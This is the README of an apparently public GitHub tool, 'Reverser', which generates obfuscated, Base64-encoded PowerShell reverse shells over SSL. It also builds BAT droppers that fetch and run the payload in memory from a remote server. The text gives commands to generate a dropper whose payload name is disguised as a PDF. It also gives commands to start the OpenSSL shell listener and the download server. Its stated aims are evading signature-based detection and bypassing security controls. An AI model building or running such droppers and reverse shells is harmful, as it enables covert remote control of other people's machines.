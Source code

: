# Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.



Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)


Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)


Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:
![image](https://github.com/user-attachments/assets/a2b977f8-455c-42a8-9ec9-1e4d66905035)


Receiving a response from the listener server and establishing a Reverse shell from the workstation:
![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)


The encrypted network traffic:
![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)


And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)




